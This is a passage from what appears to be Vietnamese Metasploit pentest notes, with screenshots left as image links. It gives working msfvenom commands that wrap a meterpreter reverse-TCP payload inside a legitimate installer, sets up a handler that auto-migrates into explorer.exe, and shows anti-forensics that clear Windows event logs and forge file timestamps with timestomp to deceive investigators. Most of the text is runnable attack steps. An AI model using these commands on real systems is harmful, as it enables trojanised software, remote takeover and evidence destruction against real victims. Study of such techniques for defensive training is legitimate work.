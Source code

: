 ![](../media/MSF%20PENTEST%20REPORT_98.png)

Set exploit multi hander để tạo lisenter – tương tự nc

![](../media/MSF%20PENTEST%20REPORT_99.png)

Đóng gói Virus vào trong Software Hợp Pháp để tạo kết nối vĩnh viễn

Tạo file malware tích hợp vào trong 1 phần mềm bình thường:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.44.128 LPORT=445 --platform windows -a x86 -f exe -x /home/kali/Desktop/UniKeyNT.exe -k -o /home/kali/Desktop/1UniKeyNT.exe

![](../media/MSF%20PENTEST%20REPORT_100.png)

Sau đó dùng python để down về máy bị tấn công

Trên máy tấn công dung exploit/multi/handler để bắt lại quyền truy cập vào máy tấn công

Dùng câu lệnh:

set AutoRunScript 'post/windows/manage/migrate NAME=explorer.exe SPAWN=false'

để tự động chạy script khi session được khởi tạo.

![](../media/MSF%20PENTEST%20REPORT_101.png)

Sau đó chạy file exe trong máy bị tấn công. Và đợi session được mở.

![](../media/MSF%20PENTEST%20REPORT_102.png)

XÓA DẤU VẾT chứng cứ sau khi TẤN CÔNG HỢP PHÁP

Dùng 2 lệnh sau để xóa window event log được sinh ra trong lúc tấn công:

Clearev

run event_manager -c

![](../media/MSF%20PENTEST%20REPORT_103.png)

Chỉnh sửa chứng cứ để qua mặt Security Analyst điều tra

Xem metadata của file:

timestomp  c:\\wamp\\www\\testmysql.php -v

Đè metadata của file khác vào file mình cần che dấu:

timestomp  c:\\wamp\\www\\testmysql.php -f  c:\\wamp\\www\\meterpreter.php

![](../media/MSF%20PENTEST%20REPORT_104.png)

Thay đổi từng metadata:

timestomp  c:\\wamp\\www\\testmysql.php -a "12/16/2020 12:00:17"

tương tự  -m,-e, -c để thay đổi các phần còn lại

![](../media/MSF%20PENTEST%20REPORT_105.png)

